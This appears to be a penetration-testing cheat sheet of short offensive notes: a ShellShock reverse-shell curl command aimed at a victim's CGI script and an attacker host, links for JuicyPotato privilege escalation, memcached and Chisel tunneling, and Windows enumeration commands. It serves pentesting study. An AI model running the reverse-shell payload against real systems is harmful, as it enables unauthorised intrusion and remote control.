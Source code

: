 ### ShellShock PHP &lt; 5.6.2

```text
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/ATTACKER IP/PORT 0>&1'  http://VICTOM/cgi-bin/admin.cgi
```

### Privilege Escalation through SeImpersonatePrivilege permission \(JuicyPotato\)

[https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases) [https://www.absolomb.com/2018-05-04-HackTheBox-Tally/](https://www.absolomb.com/2018-05-04-HackTheBox-Tally/)

### Memcached Pentest & Enumeration

[https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)

### Tunneling Post-Exploitation \(PortForwarding\) through Chisel

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

### Tunelling on Windows

```text
Using plink.exe within PuTTY project folder
```

### Windows Service Start Mode Enumeration

invalid query?

```text
wmic service where caption="SERVICE" get startmode
```

### Windows check permissions over a file/executable with 'icacls'

```text
icacls "C\full_path\file.exe"
```

Permissions: F - full access M - modify access RX - read & execute access R - read access W - write-only access

### Powershell Running Services

```text
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

### Client-Side .hta \(HTML-based Internet Explorer only\) Code Execution

